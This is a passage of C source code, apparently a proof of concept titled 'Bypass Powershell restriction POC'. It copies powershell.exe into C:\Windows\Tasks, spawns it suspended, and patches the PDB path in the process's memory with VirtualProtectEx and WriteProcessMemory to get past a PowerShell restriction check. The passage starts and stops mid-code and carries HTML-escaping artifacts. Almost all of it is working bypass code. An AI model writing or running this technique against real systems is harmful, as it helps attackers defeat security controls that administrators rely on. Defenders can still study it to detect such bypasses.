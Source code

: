 ```
    WriteProcessMemory(process, address, data, bytes, &amp;bytesWritten);
`}`

void updatePdb(HANDLE process, char *base_pointer) `{`
    // This is where the MZ...blah header lives (the DOS header)
    IMAGE_DOS_HEADER* dos_header = (IMAGE_DOS_HEADER*)readProcessMemory(process, base_pointer, sizeof(IMAGE_DOS_HEADER));
    // We want the PE header.
    IMAGE_FILE_HEADER* file_header = (IMAGE_FILE_HEADER*)readProcessMemory(process, (base_pointer + dos_header-&gt;e_lfanew + 4), sizeof(IMAGE_FILE_HEADER) + sizeof(IMAGE_OPTIONAL_HEADER));

    // Straight after that is the optional header (which technically is optional, but in practice always there.)
    IMAGE_OPTIONAL_HEADER *opt_header = (IMAGE_OPTIONAL_HEADER *)((char *)file_header + sizeof(IMAGE_FILE_HEADER));
    // Grab the debug data directory which has an indirection to its data
    IMAGE_DATA_DIRECTORY* dir = &amp;opt_header-&gt;DataDirectory[IMAGE_DIRECTORY_ENTRY_DEBUG];
    // Convert that data to the right type.
    IMAGE_DEBUG_DIRECTORY* dbg_dir = (IMAGE_DEBUG_DIRECTORY*)readProcessMemory(process, (base_pointer + dir-&gt;VirtualAddress), dir-&gt;Size);
    // Check to see that the data has the right type
    if (IMAGE_DEBUG_TYPE_CODEVIEW == dbg_dir-&gt;Type)
    `{`
        PdbInfo* pdb_info = (PdbInfo*)readProcessMemory(process, (base_pointer + dbg_dir-&gt;AddressOfRawData), sizeof(PdbInfo) + 20);
        if (0 == memcmp(&amp;pdb_info-&gt;Signature, "RSDS", 4))
        `{`
            printf("[*] PDB Path Found To Be: %sn", pdb_info-&gt;PdbFileName);
            // Update this value to bypass the check
            DWORD oldProt;
            VirtualProtectEx(process, base_pointer + dbg_dir-&gt;AddressOfRawData, 1000, PAGE_EXECUTE_READWRITE, &amp;oldProt);
            writeProcessMemory(process, base_pointer + dbg_dir-&gt;AddressOfRawData + sizeof(PdbInfo), (void*)"xpn", 3);
        `}`
    `}`
    // Verify that the PDB path has now been updated
    PdbInfo* pdb2_info = (PdbInfo*)readProcessMemory(process, (base_pointer + dbg_dir-&gt;AddressOfRawData), sizeof(PdbInfo) + 20);
    printf("[*] PDB path is now: %sn", pdb2_info-&gt;PdbFileName);
`}`

int main()
`{`
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;
    CONTEXT context;
    NtQueryInformationProcess2 ntpi;
    PROCESS_BASIC_INFORMATION pbi;
    DWORD retLen;
    SIZE_T bytesRead;
    PEB pebLocal;
    memset(&amp;si, 0, sizeof(si));
    memset(&amp;pi, 0, sizeof(pi));
    printf("Bypass Powershell restriction POCnn");
    // Copy the exe to another location
    printf("[*] Copying Powershell.exe over to Tasks to avoid first checkn");
    CopyFileA("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe", "C:\Windows\Tasks\ps.exe", false);
    // Start process but suspended
    printf("[*] Spawning Powershell process in suspended staten");
    CreateProcessA(NULL, (LPSTR)"C:\Windows\Tasks\ps.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, "C:\Windows\System32\", &amp;si, &amp;pi);
```